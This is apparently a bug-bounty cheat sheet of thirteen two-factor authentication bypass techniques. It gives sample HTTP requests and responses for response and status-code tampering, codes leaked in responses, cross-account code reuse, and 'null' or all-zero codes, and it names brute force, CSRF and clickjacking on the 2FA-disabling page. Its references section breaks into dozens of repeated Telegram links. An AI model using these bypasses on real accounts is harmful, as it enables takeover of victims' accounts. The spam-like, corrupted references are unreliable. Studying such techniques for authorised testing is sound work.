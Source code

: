 [# Bypass Two-Factor Authentication

1. Response manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 404 Not Found
...
{"code": true}
```

2. Status code manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 200 OK
...
{"code": false}
```

3. 2FA Code in Response

Always check the response!
```
POST /req-2fa/
Host: vuln.com
...
email=victim@gmail.com
```
The response is
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```

4. JS Files may contain info about the 2FA Code (Rare case)
   
5. Bruteforce the 2FA code
   
6. Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
   
7. No CSRF protection on disabling 2FA, also there is no auth confirmation.

8. 2FA gets disabled on password change/email change. 

9. Clickjacking on 2FA disabling page, by iframing the 2FA Disabling page and lure the victim to disable the 2FA. 
    
10. Enabling 2FA doesn't expire previously active sessions, if the session is already hijacked and there is a session timeout vuln.

11. 2FA code reusability, same code can be reused.

12. Enter code 000000
```
POST /2fa/
Host: vuln.com
...
code=00000
```

13. Enter code "null"
```
POST /2fa/
Host: vuln.com
...
code=null
```

## References
* [Harsh Bothra](https://twitter.com/harshbothra_)
* Other writeup](https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM)https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFM
https://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

https://t.me/VolVeRFM

https://t.me/VolVeRFMhttps://t.me/VolVeRFM

